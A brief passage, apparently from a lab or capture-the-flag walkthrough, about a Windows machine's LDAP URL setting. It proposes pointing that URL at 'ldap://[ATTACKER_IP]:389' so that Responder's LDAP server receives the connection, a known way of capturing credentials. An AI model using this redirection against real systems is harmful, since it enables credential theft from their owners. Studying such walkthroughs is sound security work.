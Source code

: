 ![13.png](img/13.png)

In the **LDAP URLs** we see an ldap url with the name of the machine and if we test it we are rturned with an error.
When we are talking about LDAP in a windows enviroment we can't ignore `RESPONDER` which have a preinstalled LDAP server ready for us. so know what if we replace the standard LDAP URL with something like `ldap://[ATTACKER_IP]:389`?
